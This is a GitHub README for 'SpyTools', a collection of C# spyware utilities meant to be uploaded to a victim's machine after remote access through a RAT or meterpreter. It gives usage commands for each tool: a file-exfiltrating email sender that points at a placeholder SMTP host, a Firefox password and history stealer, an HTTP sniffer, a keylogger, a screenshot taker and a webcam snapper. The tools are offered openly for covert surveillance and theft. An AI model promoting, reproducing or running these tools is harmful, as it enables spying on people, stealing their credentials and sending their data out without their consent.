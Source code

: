 # SpyTools 1.0
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
## List of tools
### EmailSender
Get all files with some extensions in the current path, and send an email attaching them.
```
EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
```
### FoxyStealer
Copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
```
FoxyStealer.exe
```
### HTTPSniffer
Start to capture all HTTP traffic, and flush them into a txt file.
```
HTTPSniffer.exe ["OutputFileName"] [NumericIntervalToFlushTrafficToDisk]
```
### Keylogger
Start to capture all keys, and flush them into a file.
```
Keylogger.exe ["OutputFileName"] [NumericIntervalToFlushKeysToDisk]
```
### Printscreen
Take a screenshot.
```
Printscreen.exe ["OutputFileName"]
```
### WebcamSnap
Take a picture from the webcam.
```
WebcamSnap.exe ["OutputFileName"]
```
